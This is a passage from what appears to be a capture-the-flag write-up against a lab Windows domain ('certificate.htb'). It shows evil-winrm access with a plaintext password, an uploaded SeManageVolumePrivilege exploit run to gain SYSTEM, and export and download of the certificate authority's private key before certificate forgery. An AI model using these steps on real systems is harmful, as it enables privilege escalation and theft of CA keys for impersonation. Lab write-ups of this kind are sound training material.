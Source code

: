 ### Secondary Access Establishment
```bash
evil-winrm -i certificate.htb -u ryan.k -p 'SecureTemp2024!'
```

---

## Phase 8: Privilege Escalation

### SeManageVolumePrivilege Exploitation
```powershell
# Verify critical privilege
whoami /priv | findstr "SeManageVolumePrivilege"

# Download privilege escalation exploit (local → target transfer)
# Method: evil-winrm upload functionality
upload SeManageVolumeExploit.exe C:\Users\ryan.k\SeManageVolumeExploit.exe

# Execute privilege escalation
C:\Users\ryan.k\SeManageVolumeExploit.exe
```

**Result:** SYSTEM-level filesystem access for certificate extraction

---

## Phase 9: Certificate Authority Exploitation

### CA Private Key Extraction
```powershell
# Export Certificate Authority private key
certutil -exportPFX my "Certificate-LTD-CA" C:\Users\ryan.k\ca.pfx

# Verify export success
ls C:\Users\ryan.k\ca.pfx
```

### Certificate Transfer
```bash
# Download CA certificate to attacker machine
download C:\Users\ryan.k\ca.pfx ca.pfx
```

---

## Phase 10: Certificate Forgery Attack

### Time Synchronization (Critical Step)
```bash
# Resolve Kerberos clock skew issue
sudo ntpdate -s 10.129.150.122
```
